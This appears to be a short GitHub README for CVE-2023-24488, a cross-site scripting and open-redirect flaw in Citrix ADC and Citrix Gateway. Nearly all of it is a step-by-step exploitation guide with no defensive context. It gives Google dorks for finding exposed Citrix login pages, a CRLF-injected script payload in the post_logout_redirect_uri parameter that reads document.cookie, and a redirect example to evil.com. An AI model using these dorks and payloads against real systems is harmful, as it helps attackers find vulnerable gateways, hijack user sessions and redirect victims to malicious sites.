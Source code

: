 # CVE-2023–24488 Citrix Gateway XSS & Open Redirection 

## Description
Cross site scripting vulnerability in Citrix ADC and Citrix Gateway in allows and attacker to perform cross site scripting

### How to exploit
1. Google dork :
<html>
<b>
<i>inurl:/LogonPoint/tmindex.html</i>
<br></br>
<i>inurl:/vpn/index.html</i> 
</b>
</html>

2. Navigate to the endpoint
   
<b>Example:</b> https://example.com/logon/LogonPoint/tmindex.html

4. Modify the URL by adding the payload and hit enter

<b>Example:</b> https://example.com/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E

4. Once XSS is confirmed, you can check for open-redirection too, just by adding the target domain in the “post_logout_redirect_uri” parameter.

<b>Example:</b> https://example.com/oauth/idp/logout?post_logout_redirect_uri=https://evil.com
